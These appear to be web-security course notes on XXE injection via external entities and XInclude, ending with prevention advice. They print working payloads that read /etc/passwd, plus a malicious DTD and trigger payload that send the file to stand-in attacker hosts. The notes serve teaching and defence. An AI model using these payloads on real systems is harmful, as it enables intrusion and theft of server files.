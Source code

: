 📖 **XXE via XInclude**

### 🔑 **Summary**

**XXE Injection** is a vulnerability that occurs when an application processes user-controlled XML data without proper validation. Attackers can exploit this vulnerability to read sensitive files from the server, perform server-side request forgery (SSRF), and potentially execute denial-of-service (DoS) attacks. This is significant because XML parsers can handle external entities, leading to unauthorized data access or remote interactions.

---

### 📚 **Definition Bank**

- **XML (Extensible Markup Language):** A markup language used for encoding documents in a format readable by both humans and machines.
    
- **External Entity:** A reference in an XML document that points to an external source, such as a file or URL.
    
- **Blind XXE:** An attack where the response doesn't reveal data directly but can still be exfiltrated through out-of-band techniques.
    
- **SSRF (Server-Side Request Forgery):** An attack where the server makes unauthorized requests to internal resources on behalf of the attacker.
    
- **Namespace:** A collection of XML elements and attributes identified by a unique URI.
    

---

### 📦 **XInclude Attack Summary**

**What is XInclude?**  
XInclude (XML Inclusions) allows you to pull external resources (like files) into an XML document using the `<xi:include>` tag.

---

**Key Components:**

1. **Namespace Declaration (Required)**
    
    ```xml
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    ```
    
    - This **activates** the XInclude feature in XML.
    - The URL `"http://www.w3.org/2001/XInclude"` is **not a link** but a **label** for the XML parser to recognize XInclude functionality.
2. **File Inclusion Payload:**
    
    ```xml
    <xi:include parse="text" href="file:///etc/passwd"/>
    ```
    
    - **`href`** specifies the file to retrieve (`/etc/passwd` in this case).
    - **`parse="text"`** ensures the file content is returned as plain text.

---

**How the Attack Works:**

1. The namespace (`xmlns:xi`) **enables** the use of `<xi:include>`.
2. The payload with `href="file:///etc/passwd"` tries to load a local file.
3. If successful, the server returns the file content in the response.

---

✅ **Key Insight:**

- The **namespace activates the feature**, while the **`href`** specifies the target file.
- Without the namespace, the XML parser won't understand the `<xi:include>` tag.

### 🧠 **Key Concepts with Examples**

#### **1. Basic XXE Payload:**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<foo>&file;</foo>
```

**Explanation:** This payload declares an external entity `file` that references the `/etc/passwd` file. When the XML parser processes `&file;`, it includes the contents of the file in the response.

#### **2. Blind XXE with Data Exfiltration:**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com?data=%file;'>">
%eval;]>
<data>&exfiltrate;</data>
```

**Explanation:** This payload loads `/etc/passwd` and attempts to send the data to an external server controlled by the attacker.

---

### 🛠️ **Exploiting Blind XXE to Exfiltrate Data Out-of-Band**

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

**Example of a malicious DTD:**

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD performs the following steps:

- Defines an XML parameter entity called `file`, containing the contents of `/etc/passwd`.
    
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's server containing the value of the file entity within the URL query string.
    
- Uses the `eval` entity, causing the dynamic declaration of the `exfiltrate` entity to be performed.
    
- Uses the `exfiltrate` entity, causing the contents of `/etc/passwd` to be exfiltrated.
    

**Hosting the Malicious DTD:** The attacker must host this DTD on a system they control, such as:

```
http://web-attacker.com/malicious.dtd
```

**XXE Payload Example:**

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This payload will cause the XML parser to fetch the external DTD from the attacker's server and execute the steps defined in the malicious DTD, exfiltrating the `/etc/passwd` file.

**Note:** Some XML parsers may block newline characters, which can break the attack. Alternative methods such as using the FTP protocol or targeting files like `/etc/hostname` might be required.

---

### 📊 **Comparison Table: Secure vs Insecure Practices**

|**Secure Practice**|**Insecure Practice**|
|---|---|
|Use **SAX** or **StAX** parsers|Use **DOM** parsers (more vulnerable)|
|Disable external entity loading|Allow external entity loading|
|Use `secure processing` mode|Default XML parser settings|
|Validate and sanitize input|Process untrusted XML directly|

---

### ✅ **Best Practices for Preventing XXE Attacks**

- **Disable External Entity Processing:** Ensure the XML parser does not process external entities.
    
- **Use Safer Parsers:** Choose parsers like SAX and StAX over DOM.
    
- **Input Validation:** Properly validate and sanitize all XML inputs.
    
- **Implement Least Privilege:** Limit the server's file system access.
    
- **Use Security Libraries:** Consider libraries like `defusedxml` in Python.
    

---

### 📌 **Conclusion**

XXE vulnerabilities can lead to severe security issues such as data breaches and server-side request forgery. Following best practices like disabling external entities and using secure parsers can help protect against these attacks.

---

### 🏷️ #XXE #WebSecurity #CourseNotes #PenTesting